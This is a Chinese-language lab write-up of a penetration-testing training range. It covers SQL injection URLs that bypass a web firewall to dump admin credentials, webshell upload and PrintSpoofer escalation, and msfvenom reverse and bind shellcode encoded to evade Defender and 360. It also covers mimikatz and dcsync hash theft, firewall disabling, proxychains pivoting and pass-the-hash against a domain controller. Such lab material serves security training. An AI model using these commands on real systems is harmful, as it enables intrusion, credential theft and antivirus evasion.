

打靶日记（四）渗透有防护的内网域
声明：此系列文章系个人记录打靶过程的文章，靶场为暗月师傅的靶场。这是第四篇。
1.环境说明
1.1文章说明
这个靶场是 attack，是 moonsec 培训用的一个靶场，因为是视频教学，所以 本文是技术文档，过程不会太详细说明，可能会让萌新产生难以理解，如需学习 整套体系可以联系暗月学习。这个靶场目标是获取域控下的 flag.txt，想要获取域 控的最终 flag 需要运用很多技能，如果能把这个靶场通关了，去任何一家安全公 司做红队测试应该不是什么问题
1.2靶场搭建
1.3靶场拓扑图
2.测试过程
2.1netdiscover探测内网
1 | netdiscover -i eth0 -r 192.168.8.0/24 |

1 | netdiscover -i eth0 -r 192.168.8.0/24 |
2.2. 服务器端口扫描
2.2.1masscan 扫描
因为服务器上安全防护软件尽量把 rate 的值调低掉调大可能会被封
1 | masscan 192.168.8.114 -p 1-65535 --rate=100 |
2.2.2nmap 探测端口信息
1 | nmap -sV -p 3389,5985,6588,999,21,80 -A 192.168.8.114 -oA p7-attack-ports |
2.2.3美化 nmap 报告结果
1 | xsltproc -o attack.html mode.xsl p7-attack-ports.xml |
mode.xsl 是报告的模板
attack.html 是美化后的报告结果
attack-ports.xml 这是 nmap 保存的结果
2.3绑定hosts域名
这个靶场 web 服务器的域名是 www.moonlab.com 在 hosts 绑定对应的 IP 方能访问 web 服务。
linux 系统 /etc/hosts
1 | windows C:\Windows\System32\drivers\etc\hosts |
2.4目录扫描
因为目上有防火墙所以先把线程调低并发请求过多，会当作 cc 攻击拉黑处理。一般被拉黑就要等十分钟后再扫描。
2.4.1.python 编程简单的目录扫描脚本
1 | #conding:utf-8 |
弄了个脚本扫描出来存在 http://www.moonlab.com/siteserver
2.5siteserver 漏洞利用
siteserver 曾经爆出过很多漏洞，而且当前的版本比较低，直接用扫描器打。可
以都被防护软件链接了，估计是请求较多，语句具有一定危险性都 被拦截了。
需要更改脚本。https://github.com/johnniesong/w9scan/blob/master/plugins/2739.py
这个是 siteserver 检测脚本，自己修改一下。
2.6绕过安全狗注入
安全狗会对常规的 SQL 注入会进行拦截
数据库版本
1 | http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNa meCollection=test%27)%20and%20~1=@@version;%20— |
Microsoft SQL Server 2008 R2 (SP2)
数据库名
1 | http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNa meCollection=test%27)%20and%20~1=db_name();%20— |
msmoonlab
用户 密码 key
用户 admin
1 | http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNameCollection=test%27)%20and%20~1=(select%20top%201%20username%20from%20[bairong_Administrator]);%20-- |
密文 64Cic1ERUP9n2OzxuKl9Tw==
1 | http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNameCollection=test%27)%20and%20~1=(select%20top%201%20password%20from%20[bairong_Administrator]);%20-- |
key LIywB/zHFDTuEA1LU53Opg==
1 | http://www.moonlab.com/usercenter/platform/user.aspx?UnLock=sdfe%27&UserNameCollection=test%27)%20and%20~1=(select%20top%201%20PasswordSalt%20from%20[bairong_Administrator]);%20-- |
账号 |
密文 |
Key |
|---|---|---|
admin |
64Cic1ERUP9n2OzxuKl9Tw== |
LIywB/zHFDTuEA1LU53Opg== |
2.7反编译.net dll 文件
反编译 dll 主要用来查看网站的源码，这里主要是找到用户的加密方法。
siteserver/login.aspx 找到对应的 dll 文件位置
<%@ Page Language=”C#” Inherits=”UserCenter.Pages.LoginPage” %>
通过 dnSpy反编译得到加密文件
2.8. 编写 c# siteserver 密文解密工具 在 dnSpy
存在解密源码 DesDecrypt 方法
2.9. 找回密码漏洞
2.10 siteserver 后台 getshell
在后台导入模板上传 zip 文件 即可获取一个 webshell，因为存在安全狗普通的 shell 和一句话都会被拦截，所以这使用暗月内部的过狗刀。
2.11Windows Server 2016 提权
2.11.1. Windows Server 2016 信息收集
查看当前用户 名字 和 ip 信息
查看进程 服务器 收集安全防护软件信息
存在的防护软件
1. iis 安全狗
2. 服务器安全狗
3. windows firewall
4. windows defender
2.11.2PrintSpoofer 提权 Windows Server 2016
工具下载地址 https://github.com/itm4n/PrintSpoofer
当前权限是 system 服务器上装有多个防护 服务器安全狗，增加用户会被拦截。
最好是直接上远控，但是 windows server 2016 自带杀软 defender 远控或者
shellode 都会被查杀，所以要做免杀处理。
2.12. msf shellcode 绕过 windows defender 查杀
2.12.1Msf生成payload
1 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.133 LPORT=2333 -e x86/shikata_ga_nai -i 25 -f csharp -o payload.txt |

2.12.3msf 监听
1 | use exploit/multi/handler |
2.12.4. 得到 session
1 | C:\Windows\Tasks\PrintSpoofer1.exe -i -c "C:\Windows\Tasks\msf.exe" |
迁移进程后 做后渗透处理
2.13. 收集 hash 明文
在 msf load mimikatz 无法获取明文，hash 允许获取
下面简单的介绍一下神器的命令
1 | cls-----------------------------清屏 |
2.14. ntml 破解
1 | Administrator ntml e7114141b0337bdce1aedf5594706205 |
1 | hashat 字典破解 ntml |
2.16. 登录远程桌面

在目标将下面的这个打勾去掉即可
连接成功

2.17内网渗透
2.18.WEB服务器信息收集
IP 192.168.0.114 10.10.1.131
账号信息 Administrator !@#QWE123
目前渗透的进度
2.19跨网段横行渗透
2.19.1内网 ping 协议发现主机
对 10.10.1.0/24 进行横向渗透首先获取这个段下的 pc
查询 10.10.1.0/24 存活的 IP
1 | for /l %i in (1,1,255) do @ ping 10.10.1.%i -w 1 -n 1 | find /i "ttl=" |
2.19.2msf arp 发现主机
1 | run arp_scanner -r 10.10.1.0/24 |
在实际的内网渗透中，我们可以直接添加到 0.0.0.0/24的路由，这样，只要该被控主机可达的地址就都可达！
2.19.3msf socks5 proxychains 穿透内网
1 | msf 添加路由 |

1 | vim /etc/proxychains4.conf |
2.19.4proxychains nmap 扫描内网
1 | proxychains nmap -sT -Pn 10.10.1.130 -p80,89,8000,9090,1433,1521,3306,5432,445,135,443,873,5984,6379,7001,7002,9200,9300,11211,27017,27018,50000,50070,50030,21,22,23,2601,3389 –open |
目前只能访问 80 端口 估计是做了端口访问控制
2.19.5proxychains 调用火狐访问内网
proxychains firefox 10.10.1.130 -p80
2.19.6通达上传漏洞 GETSHEL
访问端口发现是通达 os 网络智能办公系统
放到脚本中
1 | proxychains python tongda-exp.py -H http://10.10.1.130 |
使用python2运行，拿到一个cmdshell
生成小马到系统中
1 | proxychains python tongda-exp.py -H http://10.10.1.130 -file-shell |
2.19.7. 配置中国蚁剑代理内网连接 shell
连接地址：http://10.10.1.130/ispirit/interface/404.php
设置代理
2.19.8收集 oa 服务器信息
收集整理有用的信息 操作的时候小心，尽量避免打草惊蛇。
当前是系统权限 system
在运行的服务
进程列表

端口连接信息
网卡信息
信息整理
oa 服务器存在两个 IP 分别是 10.10.1.130 10.10.10.166
防护软件 内置系统防火墙 Windows Firewall 360 安全卫士 360
| 协议 | 本地地址 | 外部地址 | 状态 | PID | |
|---|---|---|---|---|---|
| TCP | 0.0.0.0:80 | 0.0.0.0:0 | LISTENING | 2308 | |
TCP |
0.0.0.0:110 |
0.0.0.0:0 |
LISTENING |
1704 |
|
TCP |
0.0.0.0:135 |
0.0.0.0:0 |
LISTENING |
620 |
|
TCP |
0.0.0.0:445 |
0.0.0.0:0 |
LISTENING |
4 |
|
TCP |
0.0.0.0:1188 |
0.0.0.0:0 |
LISTENING |
3844 |
|
TCP |
0.0.0.0:3336 |
0.0.0.0:0 |
LISTENING |
1372 |
|
TCP |
0.0.0.0:5985 |
0.0.0.0:0 |
LISTENING |
4 |
|
TCP |
0.0.0.0:8750 |
0.0.0.0:0 |
LISTENING |
2308 |
|
TCP |
0.0.0.0:47001 |
0.0.0.0:0 |
LISTENING |
4 |
|
TCP |
0.0.0.0:49152 |
0.0.0.0:0 |
LISTENING |
436 |
|
TCP |
0.0.0.0:49153 |
0.0.0.0:0 |
LISTENING |
788 |
|
TCP |
0.0.0.0:49154 |
0.0.0.0:0 |
LISTENING |
536 |
|
TCP |
0.0.0.0:49155 |
0.0.0.0:0 |
LISTENING |
824 |
|
TCP |
0.0.0.0:61195 |
0.0.0.0:0 |
LISTENING |
528 |
|
TCP |
0.0.0.0:61436 |
0.0.0.0:0 |
LISTENING |
536 |
|
TCP |
0.0.0.0:61454 |
0.0.0.0:0 |
LISTENING |
1284 |
2.19.9命令行关闭 Windows Firewall
1 | NetSh Advfirewall set allprofiles state off |
现在可以访问除 80 以外的端口，可以正向连接 oa 服务器 再进行其他操作深入的操作。
2.19.10免杀过 360 全家桶
生成正向连接 shellcode
1 | msfvenom -p windows/meterpreter/bind_tcp LPORT=9872 -e x86/shikata_ga_nai -i 25 -f csharp -o payload2.txt |
再用工具免杀 上传到 oa 服务器上执行 再查看进行是否被 360 查
2.19.11msf 正向链接oa
1 | use exploit/multi/handler |
得到 oa 的 seesion 接下来就是收集服务器信息了。
网卡信息
1 | hashdump |
把信息收集完毕接下来就是进行内网域控的渗透。
2.20.内网域渗透
目前渗透进度 web 服务器到 oa 办公系统服务器下一步进行域控的渗透。
目前 oa 办公的权限是 system 权限较高
2.20.1. 定位域控
在使用命令的期间发现 session 多次失败，可以确定 web 服务器有些防护软件会对操作进行拦截
run post/windows/gather/enum_domain
发现蓝屏了
再测试一次成功了
1 | run post/windows/gather/enum_domain |

（发现进程迁移之后，执行run post的命令会离线或者蓝屏）
登录的用户
1 | run post/windows/gather/enum_logged_on_users |
组的信息
1 | run post/windows/gather/enum_ad_groups |
进程存在域管理员
2.20.2跨网段探测 DC 端口
1 | run autoroute -s 10.10.10.0/24 |
1 | proxychains nmap -sT -Pn 10.10.10.165 -p80,89,8000,9090,1433,1521,3306,5432,445,135,443,873,5984,88,6379,7001,7002,9200,9300,11211,27017,27018,50000,50070,50030,21,22,23,2601,3389 –open |
3389 端口是开放的 445 也是开放的
2.21.kiwi域管ntml
获取域控的权限
因为系统权限是看不到域管理员的ntlm，所以需要迁移进程到域用户启动的进程下
steal_token 4548
查看域控管理员的hash
1 | meterpreter > dcsync_ntlm administrator |
1 | dcsync_ntlm krbtgt (krbtgt这个用户做黄金票据的时候用到) |

拿到ntlm可以使用hash来进行登录
使用hash登录，445端口是开放的，所以可以使用smb进行尝试登录
1 | use exploit/windows/smb/psexec |
制作pth登录，因为自带的mimikatz没有pth，所以我们上传一个到服务器在命令行下执行
生成key.snk
2.22Pth攻击
1 | kerberos::pth /user:administrator /domain:attack /ntlm:f0656e74c0c8b23b49dc65c630a500d0 |
得到hash后
1 | sekurlsa::pth /user:administrator /domain:workgroup /ntlm:ccef208c6485269c20db2cad21734fe7 |
可以看到NTML hash已经对workgroup使用，这样的话访问远程主机或服务，就不用提供明文密码
pass the hash成功~